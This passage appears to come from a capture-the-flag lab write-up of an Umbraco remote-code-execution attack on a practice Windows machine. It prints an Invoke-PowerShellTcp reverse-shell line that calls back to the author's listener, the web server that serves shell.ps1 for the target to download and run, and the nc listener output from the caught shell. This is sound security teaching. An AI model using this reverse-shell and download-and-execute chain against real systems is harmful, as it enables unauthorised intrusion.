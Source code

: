 

    Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.19 -Port 443



Without this line, the harness would load the reverse shell functions
into the PowerShell session, and but not use them. Now it will load the
functions and then invoke the one I want to call back to me.

I'll use three windows:

1.  Run `python umbraco_rce_iex.py`.
2.  A Python web server hosting `shell.ps1`.
3.  A `nc` listener (with `rlwrap` for shell arrow keys) to catch the
    reverse shell.

Run the exploit (it hangs after `[]`):



    root@kali# python umbraco_rce_iex.py 
    Start
    []



In the web server, I see the GET for `shell.ps1`:



    root@kali# python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    10.10.10.180 - - [21/Mar/2020 20:33:14] "GET /shell.ps1 HTTP/1.1" 200 -



Then a second later the shell comes back:



    root@kali# rlwrap nc -lvnp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.180.
    Ncat: Connection from 10.10.10.180:49688.
    Windows PowerShell running as user REMOTE$ on REMOTE
    Copyright (C) 2015 Microsoft Corporation. All rights reserved.

    PS C:\windows\system32\inetsrv>whoami
    iis apppool\defaultapppool



### user.txt

With this shell I can grab `user.txt`. I'm currently running as a user
that doesn't have a desktop, and in fact, there are no non-admin users
on this machine:



    PS C:\users> dir
